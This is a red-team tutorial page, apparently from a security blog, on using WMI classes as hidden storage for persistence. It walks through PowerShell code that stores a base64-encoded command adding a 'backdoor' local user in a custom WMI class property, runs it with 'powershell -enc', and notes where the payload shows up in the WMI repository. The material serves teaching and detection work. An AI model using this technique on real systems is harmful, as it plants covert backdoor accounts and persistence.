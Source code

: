 ```yaml
---
layout: post
title: "wmi data storage"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /wmi-data-storage/
---
```


---
layout: post
title: "wmi data storage"
date: 2024-06-18
categories: t1084-abusing-windows-managent-instrumentation
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /wmi-data-storage/
---

---
description: >-
  Exploring WMI as a data storage for persistence by leveraging WMI classes and
  their properties.
---

# WMI as a Data Storage

## Execution

Creating a new WMI class with a property `EvilProperty` that will later store the payload to be executed:

```csharp
$evilClass = New-Object management.managementclass('root\cimv2',$null,$null)
$evilClass.Name = "Evil"
$evilClass.Properties.Add('EvilProperty','Tis notin good sir')
$evilClass.Put()

Path          : \\.\root\cimv2:Evil
RelativePath  : Evil
Server        : .
NamespacePath : root\cimv2
ClassName     : Evil
IsClass       : True
IsInstance    : False
IsSingleton   : False
```

We can see the `Evil` class properties:

```csharp
([wmiclass] 'Evil').Properties

Name       : EvilProperty
Value      : Tis notin good sir
Type       : String
IsLocal    : True
IsArray    : False
Origin     : Evil
Qualifiers : {CIMTYPE}
```

Checking WMI Explorer shows the new `Evil` class has been created under the `root\cimv2` namepace - note the `EvilProperty` can also be observed:

![](../../../.gitbook/assets/wmi-data-storage-newclass.png)

### Storing Payload

For storing the payload inside the `EvilProperty`, let's create a base64 encoded powershell command that adds a backdoor user with credentials `backdoor:backdoor`:

```csharp
$command = "cmd '/c net user add backdoor backdoor /add'"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

# $encodedCommand = YwBtAGQAIAAvAGMAIAAnAG4AZQB0ACAAdQBzAGUAcgAgAGIAYQBjAGsAZABvAG8AcgAgAGIAYQBjAGsAZABvAG8AcgAgAC8AYQBkAGQAJwA=
```

Updating `EvilProperty` attribute to store `$encodedCommand`:

```csharp
$evilClass.Properties.Add('EvilProperty', $encodedCommand)
```

Below is the same as above, just in a screenshot:

![](../../../.gitbook/assets/wim-setting-payload.png)

### Real Execution

```csharp
powershell.exe -enc $evilClass.Properties['EvilProperty'].Value
```

Executing the payload stored in the property of a WMI class's property - note that the backdoor user has been successfully added:

![](../../../.gitbook/assets/wmi-payload-executed.png)

If we commit the `$evilClass` with its `.Put()` method, our payload will get stored permanently in the WMI Class. Note how a new "Evil" class' properties member shows the payload we have commited:

![](../../../.gitbook/assets/wmi-payload-commited.png)

## Observations

Using the WMI Explorer, we can inspect the class' definition which is stored in`%SystemRoot%\System32\wbem\Repository\OBJECTS.DATA` 

The file contains all the classes and other relevant information about those classes. In our case, we can see the `EvilProperty` with our malicious payload inside:

![](../../../.gitbook/assets/wmi-evil-mof.png)

When inspecting the OBJECTS.DATA with a hex editor, it is possible \(although not very practical nor user friendly\) to find the same data - note that the screenshot is referring to the state of the Evil class at the very beginning of its creation as this is when I took the screenshot:

![](../../../.gitbook/assets/wmi-objects-data.png)

@spotheplanet
